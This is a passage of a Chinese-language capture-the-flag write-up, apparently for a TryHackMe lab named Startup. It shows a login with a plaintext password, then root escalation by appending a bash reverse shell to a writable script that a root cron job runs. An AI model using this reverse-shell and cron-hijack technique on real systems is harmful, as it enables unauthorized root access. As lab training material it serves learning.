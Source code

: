 www-data@startup:/tmp$ su lennie
su lennie
Password: c4ntg3t3n0ughsp1c3

lennie@startup:/tmp$ cd /home
cd /home
lennie@startup:/home$ ls
ls
lennie
lennie@startup:/home$ cd lennie
cd lennie
lennie@startup:~$ ls
ls
Documents  scripts  user.txt
```

# 提权到root

我们查看```scripts```文件夹以及里面的脚本
```
lennie@startup:~$ cd scripts
cd scripts
lennie@startup:~/scripts$ ls -alh
ls -alh
total 16K
drwxr-xr-x 2 root   root   4.0K Nov 12  2020 .
drwx------ 6 lennie lennie 4.0K Nov  6 08:43 ..
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 Nov  6 08:57 startup_list.txt
lennie@startup:~/scripts$ cat planner.sh 
cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
lennie@startup:~/scripts$ cat /etc/print.sh
cat /etc/print.sh
#!/bin/bash
echo "Done!"
lennie@startup:~/scripts$ ls -alh /etc/print.sh
ls -alh /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh


```

## 分析
planner.sh这个文件属于root，按文件名来看属于某种定时任务，普通用户对于这个文件没有写权限。但是这个脚本调用了另一个脚本```/etc/print.sh```，这个脚本的属组是lennie。也就是说我们可以把反弹shell写进这个脚本

## 攻击

写脚本到```/etc/print.sh```

```
lennie@startup:~/scripts$ echo "bash -i >& /dev/tcp/10.13.21.169/4242 0>&1" >> /etc/print.sh
<cho "bash -i >& /dev/tcp/10.13.21.169/4242 0>&1" >> /etc/print.sh           
lennie@startup:~/scripts$ cat /etc/print.sh
cat /etc/print.sh
#!/bin/bash
echo "Done!"
bash -i >& /dev/tcp/10.13.21.169/4242 0>&1
```

开启监听，等大约一分钟，拿到root权限
```
┌──(root💀kali)-[~/tryhackme/Startup]